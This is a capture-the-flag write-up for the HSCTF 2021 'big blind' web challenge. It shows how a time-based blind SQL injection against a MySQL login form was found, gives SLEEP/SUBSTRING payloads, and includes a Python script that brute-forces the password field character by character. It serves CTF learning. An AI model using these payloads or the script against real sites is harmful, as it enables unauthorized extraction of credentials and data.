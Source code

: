 ```yaml
---
layout: load_md
title: The White Circle | Hsctf 2021 | big blind Writeup
desc: Check out our writeup for big blind for Hsctf 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Hsctf 2021
parent: hsctf_2021
category: web
challenge: big blind
tags: "web, twh, sql, sqli, python"
date: 2021-06-20T00:00:00+00:00
last_modified_at: 2021-06-20T00:00:00+00:00
---
```



> Solved By : thewhiteh4t


- we are given a login page in this challenge
- the page source does not contain any JS
- After trying several things I found that we get status 500 on using `'` in either username or password field
- we don’t get an error if we use `'` in both fields
- A better test is to use the following :

```
user : ''
pass : '
```

- in the above case we get an error which shows that its due to an un-closed `'`
- we don’t get an error in the following case :

```
user : ''
pass : ''
```

- finally I confirmed that its blind SQL injection by using the following payload :

```
' or sleep(2) and 1=1#
```

- so here it was clear that its MySQL because syntax for others are different
- I used `SUBSTRING` and `SLEEP` to bruteforce the flag one character at a time
- payload :

```
' OR IF(SUBSTRING(pass,1,1)='f',sleep(5),sleep(0))#
```

- Explanation :
    - substring function requires three arguments
    - first argument is the string which we want to check
    - second argument is the position which we want to check
    - third argument is the length we want to check
    - to check one character at a time I incremented second argument each time and kept third argument fixed
- Usage of `IF` :
    - If uses three arguments
    - first is the condition
    - second is action if condition is `True`
    - third is action if condition is `False`
    - so when we find a match we will see a sleep of 5 seconds else page will load immediately
- Automation :

```python
from requests import post, ReadTimeout

url = 'https://big-blind.hsc.tf/'
charset = '_{}flagisodnbcehjkmpqrtuvwxyz'
flag = ''
counter = 0

while flag.endswith('}') != True:
    counter += 1
    for char in charset:
        payload = {
            'user': 'twh',
            'pass': f"' OR IF(SUBSTRING(pass,{counter},1)='{char}',sleep(5),sleep(0))#"
        }
        try:
            r = post(url, data=payload, timeout=3)
        except ReadTimeout:
            flag += char
            print(f'FLAG : {flag}')
            break
```

- output :

![](https://i.imgur.com/fAdPjA5.png)

